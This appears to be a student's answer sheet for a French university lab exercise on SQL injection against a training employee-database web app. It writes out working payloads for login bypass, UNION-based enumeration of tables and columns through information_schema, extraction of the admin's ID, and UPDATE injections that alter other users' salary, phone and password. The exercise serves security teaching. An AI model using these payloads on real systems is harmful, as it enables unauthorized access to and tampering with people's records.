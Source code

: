 `Editor: Yuxin SHI 18/03/2018`
`[TD3 exercices1]`
# Sécurité des systèmes d’information

1. Réaliser une injection sql qui permet de s’authentifier en tant que Boby. Pour
cette question nous supposons que disposez de l’ID de Boby qui est 20000.
```sql
20000';#
```
2. Réaliser une injection sql qui permet de s’authentifier sans connaitre aucun ID.
Quelle est l’employé affecté par cette attaque ?
```sql
'OR (1 = 1); #
```
3. Répéter l’attaque précédente pour obtenir des information sur chaque employé.
```sql
/* index 12 to 20 line*/
UNION SELECT NULL, NULL, NULL LIMIT 12,20
OU
'OR (1 = 1) LIMIT 12, 20; #
```
4. Pour cette question, on souhaite se connecter en tant d’administrateur sans connaitre son ID. On sait uniquement que "Admin" est le nom utilisé par l’administrateur.
L’approche de la question précédente peut être fastidieuse si le nombre d’employé
est élevé. Pour cette question on pourra procéder comme suit :
(a) Faire une injection SQL permettant de récupérer le nom de la table.

```sql
# Reference:
SELECT table_name FROM information_schema.tables WHERE table_schema = database();
# 使用以下语句语句得到所有的数据库名'
'AND (1=2) UNION (SELECT 1, 2, 3, 4, 5, 6, 7, 8, table_name, 9, 10 FROM information_schema.tables WHERE table_schema = database()) ORDER BY 11 LIMIT 1,2;#
/*Effect where limit 1,2 choose second line of table:
Employee ID	3
Salary	4
Birth	5
SSN	6
NickName	9
Email	secret
Address	8
Phone Number	7*/
```
(b) Faire une injection SQL permettant de récupérer le nom des différentes colonnes
de la table.
```sql
SELECT column_name FROM information_schema.columns WHERE table_name = 'credential' and table_schema= database();
+-------------+
| column_name |
+-------------+
| ID          |
| Name        |
| EID         |
| Salary      |
| birth       |
| SSN         |
| PhoneNumber |
| Address     |
| Email       |
| NickName    |
| Password    |
+-------------+
'
'AND (1=2) UNION (SELECT 1, 2, 3, 4, 5, 6, 7, 8, group_concat(column_name), 9, 10 FROM information_schema.columns WHERE table_schema = database() AND table_name = 'credential') ORDER BY 11;#
/* EFFECTS:
Employee ID	3
Salary	4
Birth	5
SSN	6
NickName	9
Email	ID,Name,EID,Salary,birth,SSN,PhoneNumber,Address,Email,NickName,Password
Address	8
Phone Number	7 */
```
(c) Faire une injection SQL permettant de récupérer l’ID de l’administrateur.
```sql
'
'AND(1=2) UNION (SELECT 1, 2, 3, 4, 5, 6, 7, 8, EID, 9, 10 FROM credential WHERE
Name = 'Admin'); #
/*
Employee ID	3
Salary	4
Birth	5
SSN	6
NickName	9
Email	99999
Address	8
Phone Number	7
*/'
```
(d) Faire une injection SQL permettant de se connecter en tant qu’administrateur.
```sql
'
'AND (1=2) UNION (SELECT * FROM credential WHERE EID = 99999);#
99999';#
```
5. En vous inspirant de la question précédente, obtenez une information contenue
dans une autre table de la base. Quelle bonne pratique aurait pu limiter l’impacte
de votre attaque ?
> Ajouter une contrainte sur la page loggin, par exemple, il n'y a que les chifferes sont acceptes.

## Injection SQL (update)
1. Réaliser une injection sql qui permet à Ryan de modifier son salaire. Pour cette on connait l’EID de Ryan (30000) ainsi que son mot de passe (seedryan).

```sql
Ryan' , Salary=100 WHERE EID=30000;#
```
![](cr_update_31.png)
2. Réaliser une injection sql qui permet à Alice de modifier de numéro de téléphone de Ryan.
```sql
Ryan', PhoneNumber = '00000000' WHERE Name='Ryan';#
```
![](cr_update_32.png)
3. Est-ce que Alice peut modifier le mot de passe de Ryan ?
```sql
# executer dans le inputtext de password'
Ryan',Password = 'pwd' WHERE EID=30000;#
```
